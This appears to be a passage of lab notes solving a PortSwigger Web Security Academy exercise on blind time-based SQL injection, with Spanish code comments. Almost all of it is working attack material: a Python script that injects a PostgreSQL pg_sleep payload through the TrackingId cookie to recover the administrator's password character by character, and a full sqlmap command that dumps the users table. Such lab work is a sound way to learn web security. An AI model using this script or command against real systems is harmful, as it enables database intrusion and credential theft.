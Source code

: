 ```python
# string.ascii_lowercase (minusculas a-z)
# string.ascii_uppercase (mayusculas A-Z)
# string.printable (todo 0-9a-zA-Z mas caracteres especiales)
characters = string.ascii_lowercase + string.digits

def makeRequest():

    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characters:
            cookies = {
                'TrackingId':"5wIAPX6GqgqAWVsT'||(select case when (substring(password,%d,1)='%s') then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -" % (position,character),
                'session':'oja3JaI322kOOkW9b3oUJaoodaQ9bXE8'
            }

            p1.status(cookies['TrackingId'])
			
            start_time = time.time()
            r = requests.get(main_url, cookies=cookies)
            end_time = time.time()

            if end_time - start_time > 3:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeRequest()
```

![[Pasted image 20230213225050.png]]

SQLMap:

```bash
sqlmap 'https://0a8200630423aa73c2fedf57003800f1.web-security-academy.net/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Cookie: TrackingId=KfmqSSgWhtBjAqao*; session=tl6y6P0pJhgfwvFVdui2x5YcWuShba7J' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' --dbms=postgres --level=5 --risk=3 --dump --technique=T -T users
```
